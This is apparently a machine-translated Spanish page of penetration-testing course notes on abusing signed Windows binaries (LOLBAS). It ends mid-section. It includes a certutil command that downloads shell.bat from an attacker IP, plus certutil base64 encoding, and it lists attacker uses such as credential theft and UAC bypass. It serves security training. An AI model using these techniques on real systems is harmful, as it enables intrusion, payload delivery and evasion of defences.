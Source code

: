# Técnicas misceláneas

---

## Viviendo de los binarios y guiones de la tierra (lolbas)

El[Proyecto lolbas](https://lolbas-project.github.io/)Documenta binarios, scripts y bibliotecas que pueden usarse para "vivir fuera de la tierra" en los sistemas de Windows. Cada uno de estos binarios, scripts y bibliotecas es un archivo firmado por Microsoft que es nativo del sistema operativo o se puede descargar directamente desde Microsoft y tener una funcionalidad inesperada útil para un atacante. Alguna funcionalidad interesante puede incluir:

||||
|---|---|---|
|Ejecución del código|Compilación de código|Transferencias de archivos|
|Persistencia|Bypass de UAC|Robo de credenciales|
|Memoria del proceso de vertido|Keylogging|Evasión|
|Secuestro de dll|||

#### Transferencia de archivo con certutil

Un ejemplo clásico es[certutil.exe](https://lolbas-project.github.io/lolbas/Binaries/Certutil/), cuyo uso previsto es para manejar certificados, pero también se puede usar para transferir archivos descargando un archivo en disco o base64 codificando/decodificando un archivo.

  Técnicas misceláneas

```powershell-session
PS C:\htb> certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat
```

#### Codificación de archivo con certutil

Podemos usar el`-encode`Marcar para codificar un archivo usando Base64 en nuestro host de ataque de Windows y copiar el contenido en un nuevo archivo en el sistema remoto.

  Técnicas misceláneas

```cmd-session
C:\htb> certutil -encode file1 encodedfile

Input Length = 7
Output Length = 70
CertUtil: -encode command completed successfully
```

#### Archivo de decodificación con certutil

Una vez que se ha creado el nuevo archivo, podemos usar el`-decode`Marcar para decodificar el archivo a su contenido original.

  Técnicas misceláneas
